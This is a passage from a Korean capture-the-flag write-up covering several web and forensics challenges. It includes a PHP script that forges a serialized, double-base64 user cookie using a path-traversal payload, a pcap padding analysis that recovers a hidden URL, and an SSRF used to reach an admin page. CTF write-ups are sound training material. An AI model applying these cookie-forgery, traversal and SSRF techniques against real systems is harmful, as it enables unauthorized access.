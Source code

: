 20022/tcp에 http로 접근이 가능하다. 다음과 같이 user 쿠키를 변조하여 문제를 해결할 수 있었다:
```php
class user {
    function __construct()
    {
        return ;
    }
}

$obj = new user();
$obj->username = "admin";
$obj->admin = false;
$obj->profile_img = "/var/www/html/../../../../../flag.png";

print(serialize($obj) . "\n\n");
print(base64_encode(base64_encode(serialize($obj))));
```
```
$ php serialize.php
O:4:"user":3:{s:8:"username";s:5:"admin";s:5:"admin";b:0;s:11:"profile_img";s:37:"/var/www/html/../../../../../flag.png";}

VHpvME9pSjFjMlZ5SWpvek9udHpPamc2SW5WelpYSnVZVzFsSWp0ek9qVTZJbUZrYldsdUlqdHpPalU2SW1Ga2JXbHVJanRpT2pBN2N6b3hNVG9pY0hKdlptbHNaVjlwYldjaU8zTTZNemM2SWk5MllYSXZkM2QzTDJoMGJXd3ZMaTR2TGk0dkxpNHZMaTR2TGk0dlpteGhaeTV3Ym1jaU8zMD0=
```

----

## Ace of Diamonds

> Solved by **Dohyun Kim (@d0now)** from **STLCTF**

35000/tcp에 http로 접근하게 되면 `capture.pcap` 파일을 획득할 수 있다. 이 파일은 SMB 프로토콜이 캡쳐된것을 확인할 수 있는데, 몇가지 수상한 행동을 한다. 하지만 이는 모두 연막이고 단순히 padding 필드가 존재하는 패킷의 padding 값을 확인해보면 ascii 범위인것을 알 수 있다. 이를 모두 조합하게 되면 다음과 같은 문자열을 획득할 수 있다:
```
Here is the URL you are looking for: /U,rhbjaaCeDseVRQzEO.YsgXXtoGKpvUEkZXaoxurhdYnIlpJiGszZwUktVWTS,DabQAhvbEDQaNL_Dhsq.pposWkG-DtQdIVXNEWd.KbtYXvCek_gJuzIrDtMHfITFL/flag.png
```

해당 경로로 접속하게 되면 플래그를 획득할 수 있다.

별개로, SMB 관리자의 계정은 다음과 같다: Administrator:netntlmv2

----

## Ace of Hearts

> Solved by **Donggyu Kim** from **STLCTF**

20011/tcp로 접근하게 되면 네개의 사용자의 페이지를 볼 수 있는데, 이 중 John의 페이지는 private 설정이 되어 있다. 하지만 밑의 url 검색 기능에서 SSRF가 발생하는데, 이를 이용하여 `/admin`에 접근하게 되면 John의 페이지 권한 설정을 수정할 수 있다. 그리고 John의 페이지로 접근하여 플래그를 획득할 수 있었다.

----
